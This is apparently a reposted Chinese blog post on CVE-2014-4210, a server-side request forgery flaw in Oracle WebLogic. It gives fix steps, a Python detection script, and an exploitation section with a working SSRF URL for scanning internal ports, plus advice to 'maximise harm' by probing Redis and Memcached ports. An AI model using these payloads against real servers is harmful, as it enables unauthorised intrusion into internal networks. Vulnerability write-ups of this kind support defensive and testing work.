

# CVE-2014-4210 SSRF 漏洞 - Null1433 - 博客园

> 原文：[`www.cnblogs.com/null1433/p/12675765.html`](https://www.cnblogs.com/null1433/p/12675765.html)

Weblogic 中存在一个 SSRF 漏洞，利用该漏洞可以发送任意 HTTP 请求，进而攻击内网中 redis、fastcgi 等脆弱组件。

修复方式：

　　1.删除 server/lib/uddiexplorer.war 下的相应 jsp 文件。 

#> jar -xvf uddiexplorer.war 

#> rm jsp-files 

#> jar -cvfM uddiexplorer.war uddiexplorer/

　　2.配置访问权限，取消对外开放。

个人经验，据我在公网上找的这些站点，80%都存在这个漏洞

影响版本：

weblogic 10.0.2 -- 10.3.6.0

检测脚本

```
def run(self):
        headers = { "User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50" }
        payload = "/uddiexplorer/SearchPublicRegistries.jsp?operator=http://localhost/robots.txt&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search" vulnurl = self.url + payload try:
            req = requests.get(vulnurl, headers=headers, timeout=10) if r"weblogic.uddi.client.structures.exception.XML_SoapException" in req.text and r"IO Exception on sendMessage" not in req.text:
                print("[+]存在 weblogic SSRF 漏洞...(中危)\tpayload: "+vulnurl)
        except:
            print("[-] "+__file__+"====>连接超时")
```


手工验证

是因为存在 /uddiexplorer/SearchPublicRegistries.jsp  这个文件，访问，如图就可能存在这个漏洞



漏洞利用

访问抓包，看数据包回显 ，直接探测端口

http://x.x.x.x:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:80

可访问的端口将会得到错误，一般是返回 status code（如下图），如果访问的非 http 协议，则会返回 did not have a valid SOAP content-type。修改为一个不存在的端口，将会返回 could not connect over HTTP to server。如下如回包对比：


 通过错误的不同，即可探测内网状态。

要做到危害最大化，可以探测一些未授权端口，如 6379，11211，27010 等，或者看 SSRF 能否读取文件和命令执行